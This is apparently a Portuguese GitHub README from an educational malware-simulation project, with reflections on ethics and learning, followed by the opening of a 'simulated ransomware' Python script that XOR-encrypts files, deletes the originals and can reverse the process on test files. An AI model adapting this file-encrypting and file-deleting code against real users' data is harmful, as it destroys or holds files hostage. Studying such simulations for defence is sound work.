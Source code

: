 ### Aprendizados e Reflexões
- **Entendimento Técnico:** Implementar esses scripts mostrou como malwares exploram APIs simples do Python (ex: listeners de teclado, manipulação de arquivos). XOR é básico, mas ilustra criptografia simétrica; em malwares reais, usam AES ou RSA.
- **Ética e Responsabilidade:** Simulações ajudam a defender, não atacar. Aprendi que cibersegurança é sobre equilíbrio: conhecer o inimigo para proteger.
- **Adaptações e Melhorias:** Poderia adicionar persistência (ex: agendamento de tarefas), mas evitei para manter seguro. Novos cenários: simular worm propagando via rede local.
- **Jornada de Aprendizado:** Pesquisei documentações de bibliotecas e relatórios de cibersegurança (ex: MITRE ATT&CK). Isso reforçou que educação é a melhor defesa. Recomendo estudar OSCP ou livros como "Hacking: The Art of Exploitation".

## Contribuições
Sinta-se à vontade para fork e melhorar! Compartilhe suas reflexões.

Licença: MIT (use livremente para educação).

Script: ransomware_simulado.py

import os

# Chave fixa para XOR (simples para simulação; em cenários reais, gere aleatória)
XOR_KEY = 42

def xor_encrypt_decrypt(data, key):
    """Função simétrica para criptografar/descriptografar com XOR."""
    return bytes(b ^ key for b in data)

def encrypt_file(file_path, key):
    """Criptografa o arquivo e remove o original."""
    with open(file_path, 'rb') as f:
        data = f.read()
    encrypted = xor_encrypt_decrypt(data, key)
    encrypted_path = file_path + '.encrypted'
    with open(encrypted_path, 'wb') as f:
        f.write(encrypted)
    os.remove(file_path)
    print(f'Arquivo criptografado: {encrypted_path}')

def decrypt_file(encrypted_path, key):
    """Descriptografa o arquivo e remove a versão criptografada."""
    with open(encrypted_path, 'rb') as f:
        data = f.read()
    decrypted = xor_encrypt_decrypt(data, key)
    original_path = encrypted_path.replace('.encrypted', '')
    with open(original_path, 'wb') as f:
        f.write(decrypted)
    os.remove(encrypted_path)
    print(f'Arquivo descriptografado: {original_path}')

def create_test_files(test_dir):
    """Cria arquivos de teste."""
    os.makedirs(test_dir, exist_ok=True)
    for i in range(3):
        file_path = os.path.join(test_dir, f'file{i}.txt')
        with open(file_path, 'w') as f:
            f.write(f'Este é o arquivo de teste {i}. Conteúdo confidencial.')
        print(f'Arquivo criado: {file_path}')
